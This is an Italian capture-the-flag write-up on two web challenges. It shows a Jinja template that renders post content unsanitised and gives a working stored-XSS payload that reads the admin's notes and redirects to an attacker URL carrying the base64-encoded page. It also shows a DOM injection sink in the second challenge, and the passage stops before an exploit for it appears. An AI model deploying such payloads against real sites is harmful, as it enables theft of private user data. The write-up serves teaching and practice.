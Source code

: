 ### Baby Ducky Notes: Revenge
Questa challenge risultava un po' più elaborata rispetto alla precedente, poiché la flag era nascosta. L'unico modo per leggerla era far sì che l'admin la visualizzasse, oppure ottenere il suo cookie, che però era protetto da HttpOnly.  
Analizzando il codice sorgente, ho individuato questo frammento nel template della pagina dei post:
```html
<ul class="posts_ul">
    {% for post in posts %}
    <li>
        <div class="blog_post">
            <div class="container_copy">
                <h1> {{post.get('title')}} </h1>
                <h3> {{post.get('username')}} </h3>
                <p> {{post.get('content') | safe}} </p>
            </div>
        </div>
    </li>
    {% endfor %} 
</ul>
```
Il contenuto veniva renderizzato senza alcuna sanitizzazione, il che mi ha permesso di eseguire un attacco XSS con questo payload:
```js
<script>
async function attack(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/posts/view/admin", true);
    xhr.responseType = "text";
    xhr.onload = () => {
        window.location.href = "{input('Enter the url of your site: ')}?html=" + btoa(xhr.responseText.toString());
    };
    await xhr.send(null);
}
attack();
</script>
```
Eseguendo questo script, l'admin avrebbe visualizzato le proprie note (inclusa la flag) e inviato l'intero HTML, codificato in base64, al mio sito. Successivamente, avrei potuto decodificarlo per estrarre la flag.

### Cookie Store
Questa challenge mi ha fatto impazzire per un po’ perché non riuscivo a far girare il codice JavaScript della pagina (fondamentale per l'exploit) a causa di un errore nella funzione `setHTML`, la quale funzionava solo in ambiente `localhost` o su connessioni `https`.  
Successivamente ho trovato un modo per far girare Docker come `localhost` (inizialmente usava l'IP locale 172.17.x.x) e, nonostante il tempo speso per risolvere il problema, la challenge si è rivelata interessante. Infatti, il sito stampava le "note" utilizzando un metodo di ordinamento delle colonne vulnerabile:
```js
const urlParams = new URLSearchParams(window.location.search);
const fields = urlParams.get('fields');

let form_html = '';
let fields_list = [];
if (fields) {
    fields_list = fields.split(',');
    fields_list.forEach(element => {
        form_html += `<div class="mb-4">
            <label for="${element}" ... >${element}</label>
            <input type="text" name="${element}" id="${element}" ...>
        </div>`;
    });
}
```
